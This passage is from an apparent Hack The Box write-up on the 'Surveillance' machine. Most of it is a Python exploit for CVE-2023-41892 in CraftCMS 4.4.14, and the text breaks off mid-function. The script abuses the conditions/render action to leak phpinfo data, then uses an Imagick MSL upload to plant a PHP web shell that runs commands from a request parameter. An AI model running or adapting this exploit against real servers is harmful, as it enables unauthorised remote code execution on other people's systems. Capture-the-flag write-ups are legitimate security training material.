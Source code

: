 ![surveillance1](https://github.com/g1vi/Hack-the-box-write-ups/assets/120142960/9bfb8cef-3e43-46e7-85da-ee7d9f3d2b7b)

For initial foothold, we'll focus on the CMS vulnerabilities.

### PHASE 2: User
Searching for CraftCMS 4.4.14 vulnerabilites, we come across this one https://www.cvedetails.com/cve/CVE-2023-41892/<br>
<br>
And this POC https://gist.github.com/to016/b796ca3275fa11b5ab9594b1522f7226<br>
<br>
The POC cannot be used off-the-shelf, just need a small modification in line 25 (remove the proxies).
The final working exploit code is the following.
```python
import requests
import re
import sys

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.88 Safari/537.36"
}

def writePayloadToTempFile(documentRoot):

    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/etc/passwd"}}}'
    }

    files = {
        "image1": ("pwn1.msl", """<?xml version="1.0" encoding="UTF-8"?>
        <image>
        <read filename="caption:&lt;?php @system(@$_REQUEST['cmd']); ?&gt;"/>
        <write filename="info:DOCUMENTROOT/cpresources/shell.php">
        </image>""".replace("DOCUMENTROOT", documentRoot), "text/plain")
    }

    response = requests.post(url, headers=headers, data=data, files=files)

def getTmpUploadDirAndDocumentRoot():
    data = {
        "action": "conditions/render",
        "configObject[class]": "craft\elements\conditions\ElementCondition",
        "config": r'{"name":"configObject","as ":{"class":"\\GuzzleHttp\\Psr7\\FnStream", "__construct()":{"methods":{"close":"phpinfo"}}}}'
    }

    response = requests.post(url, headers=headers, data=data)

    pattern1 = r'<tr><td class="e">upload_tmp_dir<\/td><td class="v">(.*?)<\/td><td class="v">(.*?)<\/td><\/tr>'
    pattern2 = r'<tr><td class="e">\$_SERVER\[\'DOCUMENT_ROOT\'\]<\/td><td class="v">([^<]+)<\/td><\/tr>'
   
    match1 = re.search(pattern1, response.text, re.DOTALL)
    match2 = re.search(pattern2, response.text, re.DOTALL)
    return match1.group(1), match2.group(1)

def trigerImagick(tmpDir):
    
```